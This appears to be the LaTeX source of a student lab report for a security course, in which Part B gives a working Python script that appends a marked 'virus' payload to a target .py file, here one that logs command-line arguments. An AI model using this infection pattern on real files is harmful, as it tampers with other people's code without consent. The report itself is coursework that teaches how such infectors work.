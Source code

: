 \documentclass{article}
\title{CSE3140 — Lab 2}
\author{Mike Medved, Eddie Kruah}
\date{October 6th, 2022}
\begin{document}
\maketitle

\section*{Deliverables}

\subsection*{Question 1}

\subsubsection*{Part A}

In order to print out all of the files in the current directory, we made a small Python script:

\begin{verbatim}
import os

if __name__ == '__main__':
    for file in os.listdir("."):
        if os.path.isfile(os.path.join(".", file)):
            print(file)
\end{verbatim}

\subsubsection*{Part B}

In order to check all files to see if they have been infected, and then infect them to run a custom payload, we modified our Part A script:

\begin{verbatim}
import os
import sys

if __name__ == '__main__':
    # Take in the target and make sure its a Python script
    target = sys.argv[1]
    if not target.endswith(".py"):
        sys.exit(1)
    
    """
    We can check if the file has already been infected by
    checking if any of the lines include the "virus" header
    we will generate.
    """
    injected = False
    with open(target, "r") as f:
        for line in f:
            if "## __virus" in line:
                injected = True
                break

    """
    If the file has not yet been infected, we can inject
    the virus payload to the end of the file. This payload
    will write all command line arguments into "Q1B.out"

    We will start the payload with "## __virus" so that
    we can later detect if the file has already been infected.
    """
    if not injected:
        with open(target, "a") as f:
            f.write("""
## __virus
import sys
import os

with open("Q1B.out", "a") as f:
    f.write(f"{' '.join(sys.argv)}\\n")
""")
\end{verbatim}
\end{document}
